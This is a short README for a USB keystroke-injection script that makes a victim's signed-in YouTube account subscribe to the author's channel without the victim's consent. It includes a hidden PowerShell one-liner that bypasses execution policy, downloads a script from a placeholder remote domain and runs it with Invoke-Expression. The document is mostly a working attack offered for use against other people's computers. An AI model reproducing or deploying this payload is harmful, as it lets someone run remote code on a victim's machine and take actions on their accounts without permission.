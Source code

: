 ##

<!-- TABLE OF CONTENTS -->
<!--TABLE 0F C0NTENTS-->

# Subscribe

A script I put together to make your target subscribe to your YouTube channel.

## Description

This script is set to open your YouTube account in their browser where they will be prompted to subscribe to you. 
SPOILER: They do.

## Getting Started

### Dependencies

* Windows 10,11
* Your target will have to be signed into their YouTube account

##

### Executing program

* Plug in your device
* 15 seconds later you have a new subscriber
* Your youtube url needs to be inside both double and single quotes   " ' url ' "
```
powershell -w h -NoP -Ep Bypass $channel="'youtube.com/iamjakoby'";irm MYDOMAIN.HERE/wj4 | iex
```

##

##